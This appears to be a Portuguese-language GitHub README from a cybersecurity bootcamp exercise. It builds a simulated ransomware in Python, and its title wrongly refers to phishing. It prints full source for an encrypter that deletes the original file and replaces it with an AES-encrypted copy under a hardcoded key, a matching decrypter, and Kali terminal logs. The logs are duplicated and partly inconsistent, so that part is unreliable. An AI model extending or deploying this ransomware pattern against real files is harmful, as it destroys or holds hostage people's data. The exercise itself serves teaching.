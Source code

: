 # Phishing para captura de senhas 🚩

Fazer a criptografia e descriptografia de um arquivo de teste, simulando um ransomware 

## Ferramentas 👨‍💻

- Kali Linux
- Python 3.11.9
- pyaes 1.6.1

## Passo a Passo 👣

• Criando o ransomware

┌──(lucas㉿kali)-[~]
└─$ mkdir projeto-ransomware
                                                                                                                                                                               
┌──(lucas㉿kali)-[~]
└─$ cd projeto-ransomware
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ touch teste.txt
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ touch encrypter.py
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ touch decrypter.py
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ ls
decrypter.py  encrypter.py  teste.txt
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ nano encrypter.py 
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ cat encrypter.py             
import os
import pyaes

## abrir o arquivo a ser criptografado

file_name = 'teste.txt'
file = open(file_name,'rb')
file_data = file.read()
file.close()

## remover o arquivo original

os.remove(file_name)

## definir a chave de encriptacao

key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + '.ransomwaretroll'
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close

• Teste Ransomware


┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ ls
decrypter.py  encrypter.py  teste.txt
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ nano teste.txt   
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ cat teste.txt   
Este arquivo do Lucas esta legivel
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ python encrypter.py
Traceback (most recent call last):
  File "/home/lucas/projeto-ransomware/encrypter.py", line 2, in <module>
    import pyaes
ModuleNotFoundError: No module named 'pyaes'

┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ pip3 install pyaes
Defaulting to user installation because normal site-packages is not writeable
Collecting pyaes
  Downloading pyaes-1.6.1.tar.gz (28 kB)
  Preparing metadata (setup.py) ... done
Building wheels for collected packages: pyaes
  Building wheel for pyaes (setup.py) ... done
  Created wheel for pyaes: filename=pyaes-1.6.1-py3-none-any.whl size=26347 sha256=f5f8885723ea8f5c435cc6c88d928f66119539915a6c2005eb503a721c98e292
  Stored in directory: /home/lucas/.cache/pip/wheels/4e/52/33/010d0843550bffb6a591b11629070ae140c0ad4f53e68a3bd3
Successfully built pyaes
Installing collected packages: pyaes
Successfully installed pyaes-1.6.1

┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ ls               
decrypter.py  encrypter.py  teste.txt
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ cat teste.txt                
este arquivo esta legivel


┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ python encrypter.py  
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ ls
decrypter.py  encrypter.py  teste.txt.ransomwaretroll
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ cat teste.txt.ransomwaretroll 
ʉ   vm*67
          
o <  <
        


┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ ls
decrypter.py  encrypter.py  teste.txt
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ nano teste.txt   
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ cat teste.txt   
Este arquivo do Lucas esta legivel
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ python encrypter.py
Traceback (most recent call last):
  File "/home/lucas/projeto-ransomware/encrypter.py", line 2, in <module>
    import pyaes
ModuleNotFoundError: No module named 'pyaes'

┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ pip3 install pyaes
Defaulting to user installation because normal site-packages is not writeable
Collecting pyaes
  Downloading pyaes-1.6.1.tar.gz (28 kB)
  Preparing metadata (setup.py) ... done
Building wheels for collected packages: pyaes
  Building wheel for pyaes (setup.py) ... done
  Created wheel for pyaes: filename=pyaes-1.6.1-py3-none-any.whl size=26347 sha256=f5f8885723ea8f5c435cc6c88d928f66119539915a6c2005eb503a721c98e292
  Stored in directory: /home/lucas/.cache/pip/wheels/4e/52/33/010d0843550bffb6a591b11629070ae140c0ad4f53e68a3bd3
Successfully built pyaes
Installing collected packages: pyaes
Successfully installed pyaes-1.6.1

┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ ls               
decrypter.py  encrypter.py  teste.txt
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ cat teste.txt                
este arquivo esta legivel


┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ python encrypter.py  
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ ls
decrypter.py  encrypter.py  teste.txt.ransomwaretroll
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ cat teste.txt.ransomwaretroll 
ʉ   vm*67
          
o <  <
        

• Criar arquivo descriptografia


┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ cat decrypter.py
import os
import pyaes

## abrir o arquivo criptografado

file_name = 'teste.txt.ransomwaretroll'
file = open(file_name, 'rb')
file_data = file.read()
file.close()

##chave de descriptografia

key = b'testeransomwares'
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

##Remover o arquivo criptografado
os.remove(file_name)

##Criar um novo arquivo descriptografado

new_file = 'teste.txt'
new_file = open(f'{new_file}','wb')
new_file.write(decrypt_data)
new_file.close()

• Descriptografar arquivo


┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ ls
decrypter.py  encrypter.py  teste.txt.ransomwaretroll
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ cat teste.txt.ransomwaretroll 
ʉ   vm*67
          
o <  <
                                                                                                                                                                                      
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ python decrypter.py 
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ ls
decrypter.py  encrypter.py  teste.txt
                                                                                                                                                                               
┌──(lucas㉿kali)-[~/projeto-ransomware]
└─$ cat teste.txt                
este arquivo esta legivel

## Resultados 🎁

https://github.com/Twistywasabi/Dio_cibersecurity-desafio-ransomware 

## Referências 📚

- https://web.dio.me/track/santander-ciberseguranca-2024
- https://www.kali.org/

## Updates 🕐

2024/12/12 - Primeira versão

## Pendências 🚨


